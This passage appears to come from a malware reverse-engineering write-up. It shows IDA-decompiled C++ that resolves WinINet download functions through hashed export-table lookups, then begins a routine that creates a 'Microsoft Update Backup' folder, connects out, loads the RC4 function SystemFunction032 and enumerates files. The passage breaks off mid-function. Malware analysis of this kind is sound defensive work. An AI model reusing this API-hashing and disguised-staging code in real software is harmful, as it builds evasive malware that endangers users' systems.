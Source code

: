 ```cpp=
        }
      }
      else if ( (*dll_name == 'w' || *dll_name == 'W')
             && (dll_name[1] == 'i' || dll_name[1] == 'I')
             && (dll_name[2] == 'n' || dll_name[2] == 'N')
             && (dll_name[3] == 'i' || dll_name[3] == 'I')
             && (dll_name[4] == 'n' || dll_name[4] == 'N')
             && (dll_name[5] == 'e' || dll_name[5] == 'E')
             && (dll_name[6] == 't' || dll_name[6] == 'T') )// import wineinet library
      {
        exportTable_3 = (dll_base + getNtHdrs(dll_base)->OptionalHeader.DataDirectory[0].VirtualAddress);
        num_of_names_3 = exportTable_3->NumberOfNames;
        name_array_3 = dll_base + exportTable_3->AddressOfNames;
        name_ordinal_3 = dll_base + exportTable_3->AddressOfNameOrdinals;
        func_array_3 = dll_base + exportTable_3->AddressOfFunctions;
        for ( m = 0i64; m < num_of_names_3; ++m )
        {
          api_name_3 = (dll_base + *&func_array_3[4 * *&name_ordinal_3[2 * m]]);
          case_3 = search_case(dll_base + *&name_array_3[4 * m]);
          switch ( case_3 )
          {
            case 0x8261F0DF5FDC0887i64:
              InternetOpenA = api_name_3;
              break;
            case 0xE726A35A86C7641Ci64:
              InternetOpenUrlA = api_name_3;
              break;
            case 0x6F4E79C87F04F3E6i64:
              InternetReadFile = api_name_3;
              break;
            case 0x2DF8494D5C13046i64:
              InternetCloseHandle = api_name_3;
              break;
          }
        }
      }
    }
  }
  return 0i64;
}
```
:::
:::spoiler IDA DoSomethingBad
```cpp=
void __stdcall DoSomethingBad()
{
  HMODULE LibraryA_0; // rax
  HANDLE FirstFileA; // [rsp+20h] [rbp-188h]
  const void *space; // [rsp+30h] [rbp-178h] BYREF
  DWORD fileSize; // [rsp+38h] [rbp-170h] BYREF
  struct _WIN32_FIND_DATAA lpFindFileData; // [rsp+40h] [rbp-168h] BYREF
  char folderName[24]; // [rsp+180h] [rbp-28h] BYREF

  strcpy(folderName, "Microsoft Update Backup");
  if ( (CreateDirectoryA(folderName, 0i64) || GetLastError() == ERROR_ALREADY_EXISTS) && !(unsigned int)InternetConnect() )
  {
    LibraryA_0 = LoadLibraryA_0(aAdvapi32);
    SystemFunction032 = (__int64 (__fastcall *)(_QWORD, _QWORD))GetProcAddress(LibraryA_0, ProcName);
    FirstFileA = FindFirstFileA(FileName, &lpFindFileData);
    if ( FirstFileA != (HANDLE)-1i64 )
```